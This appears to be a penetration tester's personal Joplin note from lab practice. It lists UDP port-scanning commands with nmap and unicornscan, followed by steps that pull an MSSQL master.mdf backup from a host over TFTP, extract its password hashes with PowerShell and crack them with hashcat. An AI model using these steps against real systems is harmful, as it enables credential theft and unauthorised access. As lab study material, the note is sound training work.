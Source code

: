 UDP Scanning

# UDP Scan:

> \# UDP + tcp ports
> 
> sudo nmap -sS -sU -Pn -sV 172.21.0.0
> 
> \# UDP Only 
> 
> sudo nmap -sU -A --top-ports=20 --version-all
> 
> nmap -sU -A -p 53,67,68,161,162 --version-all
> 
> unicornscan -mU -p ,161,162,137,123,138,1434,445,135,67,68,53,139,500,637,162,69

# Unique Services that uses UDP

TFTP - Trivial File Transfer Protocol (UDP port 69) - Seen in Insider_111

> \# To communicate, use the tftp software
> 
> Tftp 10.11.1.111
> 
> binary
> 
> verbose
> 
> get \\PROGRA~1\\MICROS~1\\MSSQL1~1.SQL\\MSSQL\\Backup\\master.mdf
> 
> \# We then crack the hashes
> 
> pwsh
> 
> Add-Type -Path 'OrcaMDF.RawCore.dll'
> 
> ...
> 
> Get-MDFHashes -mdf "/path/to/master.mdf" | out-file hashes.txt
> 
> exit
> 
> hashcat -m 1731 --force -a 0 -o crack.txt hashes.txt /usr/share/wordlists/rockyou.txt
> 
> https://github.com/xpn/Powershell-PostExploitation

id: 9e69c5460e694bedb9ad12241aa72ae0
parent_id: 6b8d3e46660447279f5aee899ce00b64
created_time: 2022-01-16T06:19:20.935Z
updated_time: 2022-05-17T15:43:40.252Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T06:19:20.935Z
user_updated_time: 2022-05-17T15:43:40.252Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1